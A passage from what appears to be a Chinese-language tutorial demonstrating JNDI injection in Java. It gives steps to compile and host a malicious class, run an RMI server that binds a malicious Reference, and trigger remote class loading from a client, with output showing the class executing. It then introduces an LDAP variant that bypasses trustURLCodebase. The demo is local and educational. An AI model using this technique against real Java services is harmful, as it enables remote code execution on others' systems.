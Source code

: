 ```java
    }
}
```

**要想达到JNDI注入的演示效果，需要遵从以下步骤：**

 **步骤1: 新开窗口，准备恶意类 `EvilClass`**

- **编译 `EvilClass`**:

  - 将之前的 `EvilClass` 源代码保存为 `EvilClass.java`。

  - 使用 `javac EvilClass.java` 编译这个类，生成 `EvilClass.class` 文件。

- **部署 `EvilClass`**:
  - 在编译后的 `EvilClass.class` 同目录下启动一个http服务`python3 -m http.server 8000 `, 使这个类可以被访问 

**步骤 2: 新开窗口，设置并运行服务端**

- **编译并运行服务端**

  - 将RMI服务端代码保存为 `ServerExp.java`。

  - 使用 `javac ServerExp.java` 编译这个类，生成 `ServerExp.class` 文件。

  - 运行服务端程序：`java ServerExp`。这将在本地启动 RMI 服务，并绑定名为 "Foo" 的恶意 `Reference` 对象。

**步骤 3: 新开窗口，运行客户端 `JNDILookup`**

- 编译并运行客户端

  - 将客户端代码保存为 `JNDILookup.java`。

  - 使用 `javac JNDILookup.java` 编译这个类，生成 `JNDILookup.class` 文件。

  - 运行客户端程序，并指定 RMI 查找路径：`java JNDILookup rmi://localhost/Foo`。
  - 注意：确保 RMI 服务端已经启动，可以查看1099端口是否已经被rmi服务使用，并且 `EvilClass` 可以被访问。

  ```bash
  $ java JNDILookup rmi://localhost:1099/Foo
  EvilClass: static block
  EvilClass: IIB block
  EvilClass: constructor
  EvilClass: getObjectInstance
  ret: null
  ```



### JNDI注入之LDAP

> 我们可以通过`LDAP`服务来绕过`URLCodebase`实现远程加载，`LDAP`服务也能返回`JNDI Reference`对象，利用过程与`jndi` + `RMI Reference`基本一致，不同的是，`LDAP`服务中`lookup`方法中指定的远程地址使用的是`LDAP`协议，由攻击者控制`LDAP`服务端返回一个恶意`jndi Reference`对象，并且`LDAP`服务的`Reference`远程加载`Factory`类并不是使用`RMI Class Loader`机制，因此不受`trustURLCodebase`限制。
> 利用之前，需要在这个网站下载`LDAP`服务`unboundid-ldapsdk-3.1.1.jar`
> https://mvnrepository.com/artifact/com.unboundid/unboundid-ldapsdk/3.1.1

**LDAP服务端**

- 引入依赖
